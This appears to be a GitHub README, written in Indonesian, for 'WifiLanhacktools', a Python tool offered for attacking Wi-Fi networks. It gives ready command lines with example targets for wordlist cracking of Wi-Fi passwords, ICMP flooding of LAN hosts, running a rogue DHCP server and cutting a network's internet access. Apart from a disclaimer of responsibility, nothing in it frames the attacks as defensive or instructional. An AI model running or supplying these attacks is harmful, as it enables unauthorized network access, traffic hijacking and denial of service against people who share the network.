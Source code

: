 # WifiLanhacktools BETA Version

Sebuah tool simpel untuk hack jaringan Wi-Fi

Tersedia untuk:
- WiFi password crack
- ICMP Flood
- DHCP rogue
- DOS attack

[!]Install requirement-nya terlebih dahulu dengan mengetik "pip3 install -r requirements.txt".

Cara pakai:
1. Cara melakukan serangan crack password Wifi
   Serangan ini bertujuan untuk mencocokan password wifi berdasarkan list yang tersedia di wordlist. jika password cocok maka otomatis akan tersambung ke jaringan Wifi tersebut.
   
   [*]Cara Pakai:
   - Ketik "python run.py --c scan_wifi_lists" untuk scan jaringan Wifi tersedia.
   - Siapkan Password lists berformat .txt untuk mencocokan Password.
   - Untuk melakukan serangan ketik "python run.py --c crack_wifi_password --s [SSID_WIFI] --w [WORDLIST PASSWORD]" (contoh:python run.py --c crack_wifi_password --s "Target Wifi" --w pass.txt)
   - Tunggu sampai selesai.

   [!]Note:
   + Jika SSID memiliki spasi tambahkan huruf petik seperti contoh diatas.
   + Tekan Ctrl + C untuk berhenti.

3. Cara melakukan serangan ICMP Flood
   Serangan ini bertujuan untuk membanjiri target dengan sejumlah paket ICMP untuk menghambat lalu lintas internet pada target tersebut.
   
   [*]Cara Pakai:
   - Ketik "python run.py --c scan_ip --g [IP_GATEWAY/24]" untuk scan IP Address tersedia.
   - Pilih target IP Address untuk menjadi target.
   - Untuk melakukan serangan ketik "python run.py --c icmp_attack --ip [IP_TARGET] --loop [JUMLAH_LOOP]" (contoh:python run.py --c icmp_attack --ip 192.168.1.10 --loop 10000)
   - Tunggu sampai selesai.

   [!]Note:
   + Tekan Ctrl + C untuk berhenti.
     
5. Cara melakukan serangan DHCP Rogue
   DHCP Rogue ini bertujuan untuk menjadi DHCP Server kedua. jadi jika melakukan serangan ini otomatis PC ini menjadi DHCP server.
   
   [*]Cara Pakai:
   - Ketik "python run.py --c dhcp_rogue --ip [IP_ATTACKER] --g [GATEWAY] --d [IP_DNS] --sub [SUBNET_MASK] --lt [LEASE_TIME]" untuk melakukan serangan (contoh: python run.py --c dhcp_rogue --ip 192.168.1.2 --g 192.168.1.1 --d 192.168.1.1 --sub 255.255.255.0 --lt 43200).

   [!]Note:
   + Tekan Ctrl + C untuk berhenti.
  
7. Cara melakukan serangan DOS Attack
   Serangan ini bertujuan untuk mematikan akses internet pada jaringan Wifi.
   
   [*]Cara Pakai:
   - Ketik "python run.py --c stop_internet --g [GATEWAY] --i [INTERFACE] --g [GATEWAY] --i [INTERFACE] --p [IP_3_DIGIT_PERTAMA.255]" untuk melakukan serangan (contoh: python run.py --c stop_internet --g 192.168.1.1 --i wlp2s0 --p 192.168.1.255).

   [!]Note:
   + Tekan Ctrl + C untuk berhenti.

[!]Peringatan:
Pembuat tools tidak bertanggung jawab jika terjadi apa-apa. Gunakan tools ini dengan hati-hati.
 
